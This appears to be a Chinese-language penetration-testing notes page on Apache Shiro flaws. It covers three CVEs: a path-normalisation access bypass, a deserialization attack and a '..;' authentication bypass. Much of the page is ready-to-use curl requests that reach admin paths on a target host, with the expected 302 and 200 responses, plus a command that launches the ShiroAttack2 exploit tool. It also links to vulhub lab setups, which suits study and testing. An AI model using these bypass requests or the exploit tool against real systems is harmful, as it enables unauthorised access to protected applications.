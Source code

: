 # Shiro

## CVE-2010-3863 <a href="#apacheshiro124-fan-xu-lie-hua-lou-dong-cve20164437" id="apacheshiro124-fan-xu-lie-hua-lou-dong-cve20164437"></a>

1.1.0 之前的 Apache Shiro 和 JSecurity 0.9.x 在将 URI 路径与 shiro.ini 文件中的条目进行比较之前不会对其进行规范化，这允许远程攻击者通过精心设计的请求绕过预期的访问限制，如 `/./` 、 `/../` 、 `/` 、 `//` URI。

```bash
HOST=; PORT=8080; # TARGET HOST INFO

curl http://$HOST:$PORT/admin/ -I
# HTTP/1.1 302

curl http://$HOST:$PORT/./admin/ -I
# HTTP/1.1 200
```

## CVE-2016-4437 <a href="#apacheshiro124-fan-xu-lie-hua-lou-dong-cve20164437" id="apacheshiro124-fan-xu-lie-hua-lou-dong-cve20164437"></a>

需要配置 JDK 1.8

```bash
cd ~/hack/tools/shiro/ShiroAttack2
java -jar shiro_attack-4.7.0-SNAPSHOT-all.jar
```

```bash
# REFERENCE DOCS
https://github.com/SummerSec/ShiroAttack2
https://vulhub.org/#/environments/shiro/CVE-2016-4437
```

## CVE-2020-1957

在带有 Spring 动态控制器的 Apache Shiro 1.5.2 之前的版本中，攻击者可以使用 `..;` 构造恶意制作的请求来绕过目录身份验证。

```bash
HOST=; PORT=8080; # TARGET HOST INFO

curl http://$HOST:$PORT/admin/ -I
# HTTP/1.1 302

curl http://$HOST:$PORT/xxx/..;/admin/ -I
# HTTP/1.1 200
```

```bash
# REFERENCE DOCS
https://github.com/vulhub/vulhub/blob/master/shiro/CVE-2020-1957/README.zh-cn.md
```
